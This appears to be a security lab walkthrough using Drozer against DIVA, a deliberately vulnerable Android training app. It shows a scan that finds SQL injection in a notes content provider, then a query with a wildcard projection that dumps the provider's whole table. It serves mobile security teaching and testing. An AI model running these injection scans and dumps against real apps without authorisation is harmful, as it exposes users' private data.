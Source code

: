 # Using `help` command for detail information #
    
```help scanner.provider.injection```
<br><br>
```help app.provider.query```
<br><br><br>
* **Running `scanner.provider.injection` for scanning available vulnerable content injection**

```
dz> run scanner.provider.injection -a jakhar.aseem.diva
Scanning jakhar.aseem.diva...
Not Vulnerable:
  content://jakhar.aseem.diva.provider.notesprovider
  content://jakhar.aseem.diva.provider.notesprovider/

Injection in Projection:
  content://jakhar.aseem.diva.provider.notesprovider/notes/
  content://jakhar.aseem.diva.provider.notesprovider/notes

Injection in Selection:
  content://jakhar.aseem.diva.provider.notesprovider/notes/
  content://jakhar.aseem.diva.provider.notesprovider/notes
```

* **Running `app.provider.query` for dump all tables field**
```
dz> run app.provider.query content://jakhar.aseem.diva.provider.notesprovider/notes/ --projection "*"
| _id | title    | note                                 |
| 5   | Exercise | Alternate days running               |
| 4   | Expense  | Spent too much on home theater       |
| 6   | Weekend  | b333333333333r                       |
| 3   | holiday  | Either Goa or Amsterdam              |
| 2   | home     | Buy toys for baby, Order dinner      |
| 1   | office   | 10 Meetings. 5 Calls. Lunch with CEO |
```
